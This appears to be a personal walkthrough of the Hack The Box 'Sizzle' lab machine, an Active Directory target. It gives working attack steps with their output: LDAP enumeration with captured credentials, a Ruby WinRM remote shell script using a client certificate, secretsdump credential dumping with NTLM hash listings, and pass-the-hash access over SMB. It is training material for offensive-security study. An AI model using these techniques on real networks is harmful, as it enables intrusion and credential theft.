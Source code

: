 
What can we do with a user name and password
```
prompt off
recurse on
ls
mget *
```
![[Pasted image 20240408013556.png]]

I don't know what's the certificate for now and whether we should generate it or not but will try to do secrets dump and ldapdump 1st.

```
ldapdomaindump ldaps://10.10.10.103 -u 'HTB\Amanda' -p 'Ashare1972'
```
![[Pasted image 20240408014627.png]]

Will run bloodhound on this tomorrow.

It seems like we have to do something with the certificate i guess. Like make a certificate for Amanda.

![[Pasted image 20240408131444.png]]

Will select advanced certificate request as User certificate throughs error at us.
![[Pasted image 20240408131533.png]]

But it's working cause we have to give some kind of output here like a key or something. So will go back to out Nmap result.

```
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-11-19T17:59:11+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, 
```

We know that port 5985 and 5986 both are used for winrm and one supports Http and another supports https.
As port 5985 is not working so we need to use port 5986 and for that reason we need certificate.

We will generate a certificate request and a private key : 
```
openssl genrsa -aes256 -out amanda.key 2048
```
![[Pasted image 20240408141724.png]]

```
openssl req -new -key amanda.key -out amanda.csr
```
![[Pasted image 20240408141959.png]]

```
-----BEGIN CERTIFICATE REQUEST-----
MIICijCCAXICAQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBAOUU4FjaASHFdmW/JmOqd0TKz61skZ56LJZf9PHM
EK2TuxeqY6/MGpcX/Wv5CNo3R9ab+QnUBCtjloQeUAhMeWwkBt3dam/bU36XSu9Z
ZXgGAq8QsWfprQhvdBtof4B4bRqZKybjIx1ks2ke7DC0BceIpcaWY7hI8eoIWbp7
yEJORqdSxKwvEhdKxywapn8N2sUqlFHw4VBU8sEuB8K7zwhTPkB9AJqSFEIx2Tcb
ZgFRrsUVIP6ThLhyBDn+sGfyhEufyOdl9yWxn4c8ncbioT3lw3DytDwHI6viA+mD
hPaBKLcbBC1A9fHTxp6OvHjvE/GmEyuhORW1MvhMMzDgBZMCAwEAAaAAMA0GCSqG
SIb3DQEBCwUAA4IBAQAg1ad9YxAtYsPwmy+ByQP1YkmVgHytK0m6fZ6Ss0PSfH7z
3UIqNDHqvDUPLHst9jbUApleuWmQWiaT+gbyoNYvubwZTRuSzWwqYMFVuRYLnvgI
oaYVAdxVUvewYGua1G7WRS+8volFRSTlReHktHb3XNnIIaXzPHDNFbA1HaARmY4x
Tx9FNfpglelmfpWMtDJvlfVUzUBUrIVeyR1PIG025x+zgBDROKHuq/2vBPpsQvCl
4ddWWGQ/AQmB5IPYHaGe62OJBh130GdLr0jbtn+RhSWiEpGLvq+HUVSw8qoePusY
W4zcIb4cjyDyaPu9sfK2e7ed6Zx/GF8a0SR4cpL2
-----END CERTIFICATE REQUEST-----
```

What i was doing wrong is that i was entering the wrong key we have to copy the .csr
![[Pasted image 20240408142323.png]]

How we have the key and will simply use a script winrm as you know that we can't connect to it through linux but luckily we have a Ruby library and will use it.

We install 
```
gem install winrm
``` 

Now we are getting this error
![[Pasted image 20240408170210.png]]

![[Pasted image 20240408181853.png]]

What i was doing wrong is that i was giving the wring certnew.cer (i.e the one we have downloaded). Authenticate through SSL using ruby (i.e. winrm)
```
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  client_cert: 'certnew.cer',
  client_key: 'amanda.key',
  key_pass: 'testing',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```


```
ruby psremote.rb
```
![[Pasted image 20240408221759.png]]


Ldap
```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'
```

We are getting a lot of data so will run a ldap query to get only the admin account even though we know about that from the ldap dump

```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 
```
![[Pasted image 20240410154311.png]]

What is the next go to step is to simply see if we can download the SAM SYSTEM and Security file to dump the hashes locally but i haven no idea how to do that.

But while doing the OSINT i found the hashes of all the users in a file.txt file
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::

Domain    User  ID  Hash
------    ----  --  ----
HTB.LOCAL Guest 501 -   
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrb3n:1105:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
```

Got the password of Administrator
```
Pass123!
```
![[Pasted image 20240410165928.png]]

```
mrb3n
```


Got the SMB aka valid users even though administrator and mrb3bn password didn't worked.
```
mrlky
```

```
Football#7
```

What i learnt from it is the repeat the process like run the secretdump.py again as it gave error in the amanda time but worked for mrlky. So keep in mind to repeat the process for each user cuz you never knew what you will get.

```
secretsdump.py Sizzle.HTB.local/mrlky:Football#7@10.10.10.103
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:19ed5345c5594385f12a292d26cd5206:::
```

Will enumerate know on post enumeration attacks as we have got the valid user names.


Will test the admin password in the SMB client for now
```
cme smb 10.10.10.103 -u 'administrator' -H 'f6b7160bfc91823792e0ac3a162c9267' --shares
```
![[Pasted image 20240411023832.png]]

Let's connect to writeable share for the moment to get the flag
```
smbclient  //10.10.10.103/c$ -U 'administrator' --pw-nt-hash f6b7160bfc91823792e0ac3a162c9267
```
![[Pasted image 20240411024509.png]]

Root Flag
```
e8b8cfd4ac3f10c125b471ff69d6db0a
```